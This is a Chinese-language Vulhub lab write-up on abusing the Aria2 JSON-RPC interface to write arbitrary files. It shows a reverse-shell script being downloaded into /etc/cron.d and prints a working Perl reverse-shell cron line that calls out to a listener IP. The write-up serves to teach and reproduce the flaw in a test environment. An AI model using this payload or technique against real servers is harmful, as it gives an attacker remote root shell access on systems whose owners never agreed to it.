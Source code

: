 # Aria2 任意文件写入漏洞

## 漏洞描述

Aria2是一个命令行下轻量级、多协议、多来源的下载工具（支持 HTTP/HTTPS、FTP、BitTorrent、Metalink），内建XML-RPC和JSON-RPC接口。在有权限的情况下，我们可以使用RPC接口来操作aria2来下载文件，将文件下载至任意目录，造成一个任意文件写入漏洞。

参考阅读：https://paper.seebug.org/120/

## 环境搭建

Vulhub启动漏洞环境：

```
docker-compose up -d
```

6800是aria2的rpc服务的默认端口，环境启动后，访问`http://your-ip:6800/`，发现服务已启动并且返回404页面。

## 漏洞复现

因为rpc通信需要使用json或者xml，不太方便，所以我们可以借助第三方UI来和目标通信，如 http://binux.github.io/yaaw/demo/ 。

打开yaaw，点击配置按钮，填入运行aria2的目标域名：`http://your-ip:6800/jsonrpc`

![image-20220221192510551](images/202202211925680.png)

然后点击Add，增加一个新的下载任务，将另一台VPS服务器上的反弹shell脚本下载至/etc/cron.d。

在Dir的位置填写下载至的目录，File Name处填写文件名。比如，我们通过写入一个crond任务来反弹shell：

![image-20220221193153466](images/202202211931602.png)

这时候，arai2会将恶意文件（我指定的另一台VPS服务器上的URL，为http://xxx.xxx.xxx.xxx/reverse_shell.sh）下载到/etc/cron.d/目录下，文件名为shell。而在debian中，/etc/cron.d目录下的所有文件将被作为计划任务配置文件（类似crontab）读取，等待一分钟不到即成功反弹shell：

```
* * * * * root /usr/bin/perl -e 'use Socket;$i="192.168.174.128";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

使用crontab -l命令查看定时任务，并不能查看到我们设置的反弹shell。

cron执行时要读取三个地方的配置文件：一是/etc/crontab，二是/etc/cron.d目录下的所有文件，三是每个用户的配置文件。

![image-20220221200226656](images/202202212002737.png)

> 如果反弹不成功，注意crontab文件的格式，以及换行符必须是`\n`，且文件结尾需要有一个换行符（建议直接在VPS服务器上执行vim）。

![image-20220221200141108](images/202202212001183.png)

当然，我们也可以尝试写入其他文件，更多利用方法可以参考[这篇文章](https://paper.seebug.org/120/)。

